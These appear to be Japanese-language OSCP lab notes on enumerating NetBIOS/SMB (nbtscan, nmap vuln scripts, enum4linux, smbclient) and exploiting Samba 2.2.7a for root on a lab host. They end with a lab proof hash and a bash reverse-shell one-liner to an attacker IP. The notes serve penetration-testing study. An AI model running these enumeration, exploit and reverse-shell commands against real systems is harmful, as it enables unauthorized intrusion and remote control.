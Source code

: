 # NetBIOS(139)

### nbtscan

有効なNetBIOS名をNetBIOSネームサービスに問い合わせる

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/7.ActiveInformationGathering]
└─$ sudo nbtscan -r 10.11.1.0/24
Doing NBT name scan for addresses from 10.11.1.0/24

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
10.11.1.5        ALICE            <server>  ALICE            00:50:56:ba:1a:c5
10.11.1.101      BREAK            <server>  BREAK            00:00:00:00:00:00
10.11.1.115      TOPHAT           <server>  TOPHAT           00:00:00:00:00:00
10.11.1.136      SUFFERANCE       <server>  SUFFERANCE       00:00:00:00:00:00
10.11.1.231      MAILMAN          <server>  MAILMAN          00:00:00:00:00:00
10.11.1.227      JD               <server>  ADMINISTRATOR    00:50:56:ba:9a:98
----
```

* rオプション：発信UDPポートを137として指定するために使用

### nmap

```
nmap -T4 -p 139,445 --script=smb-vuln* 10.11.1.5 
```



### enum4linux

```
enum4linux 10.11.1.115 
```

https://forums.offensive-security.com/showthread.php?26657-enum4linux-and-smbclient-fix-for-quot-protocol-negotiation-failed-NT_STATUS_CONNECTION_DISCONNECTED-quot&highlight=version

以下メッセージが出た場合の解消方法

```
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

/etc/samba/smb.confを編集し、グローバルセクションに1行を追加することである(これは、セッションを交渉するときに古いプロトコルを使うようにシステムに指示する)。

```bash
client min protocol = LANMAN1
```

```
sudo vi /etc/samba/smb.conf
```

![image-20230214231216669](img/NetBIOS(139)/image-20230214231216669.png)

※バージョン確認はwiresharkでも合わせて実施すること。10.11.1.115ではenum4linuxで出たsambaバージョンがあっておらずExploitで大分苦労した。



### smbmap（共有フォルダのpermissionをチェック）

```
smbmap -H 10.11.1.115 -P 139 
```



### smbclient

```bash
smbclient //10.11.1.115/IPC$/
smbclient -L 10.11.1.115
```



### smbclientで接続ができたらwiresharkでSMBのバージョンを確認する

![image-20230214231236984](img/NetBIOS(139)/image-20230214231236984.png)



## Exploit

unix.samba 2.2.7a

特に特殊なことはせず、コンパイルして実行するだけでうまくexploitできる。しかもrootで。

```bash
searchsploit samba 2.2 | grep -v windows | grep -v Overflow
```

![image-20230214231425349](img/NetBIOS(139)/image-20230214231425349.png)

```
searchsploit -p 10
```

```
gcc -static 10.c -o sambal
```

```
./sambal -d 0 -C 60 -S 10.11.1.115
```

```
cat proof.txt
377bbe9add593ba528fd9bd3104d2f25
```

```
bash -i >& /dev/tcp/192.168.119.167/4444 0>&1
```

![image-20230214231450983](img/NetBIOS(139)/image-20230214231450983.png)

